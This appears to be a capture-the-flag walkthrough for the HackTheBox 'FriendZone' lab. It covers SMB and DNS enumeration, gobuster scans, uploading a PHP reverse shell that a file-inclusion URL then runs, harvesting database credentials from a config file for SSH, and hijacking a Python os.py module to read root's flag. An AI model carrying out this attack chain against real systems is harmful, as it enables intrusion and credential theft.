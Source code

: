 FROM SMB :-
smbclient \\\\10.10.10.123\\general
admin:WORKWORKHhallelujah@#

E = haha@friendzone.red
CN = friendzone.red
OU = CODERED
O = CODERED
L = AMMAN
ST = CODERED
C = JO

DNS 53: (see ippsec video for bank machine).
nslookup
> SERVER 10.10.10.123

output:
``` Default server: 10.10.10.123
    Address: 10.10.10.123#53 ```


> friendzone.red

output:
``` Server:10.10.10.123
    Address:10.10.10.123#53
    Name:friendzone.red
    Address: 127.0.0.1
    Name:friendzone.red
    Address: ::1 ```

Interesting try dns zone transfer.

Refer to image.

Actually we have DNS server so add it to /etc/resolv.conf file like this:

nameserver 10.10.10.123

and add friendzone.red in /etc/hosts file

open https://friendzone.red
Check the source code: you will get to know about /js/js directory. so make a request to 
https://friendzone.red/js/js ==> VnRxY09uNFJwUjE1NjAyNDM0MjA3THhNZVpSOTJu (b64) ==> VtqcOn4RpR15602434207LxMeZR92n

Use dirbuster to enumerate 443:
> gobuster -u https://friendzone.red -w /usr/share/wordlists/dirb/common.txt -k

Output:
``` /.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/server-status (Status: 403)
```

> gobuster -u https://uploads.friendzone.red -w /usr/share/wordlists/dirb/common.txt -k

Output:

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
```
> gobuster -u https://administrator1.friendzone.red -w /usr/share/wordlists/dirb/common.txt -k

Output:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/images (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
```

Upload your reverse shell in smbclient \\\\10.10.10.123\\development here, suppose filename is reverse.php
Go to this url
> https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse

you will get reverse connection as www-data.

Go to /var/www/mysql_data.conf you will get user password.
dbuser = friend
dbpass = Agpyu12!0.213$

use those credentials to take remote using ssh.

Now for root 2 things:
1- pspy (refer to screenshot)
2- Basic Linux enumeration script (for ex. Linux smart enumeration having l1 verbosity).
Interested thing in output is we can write os.py file

so we will add following lines to read root.txt also we can write reverse shell code instead to this:
f = open('/root/root.txt','r')
data = f.read()
f.close()
f = open('/tmp/rootflag.txt','w')
f.write(data)
f.close()

Check temp directory you will get the content.


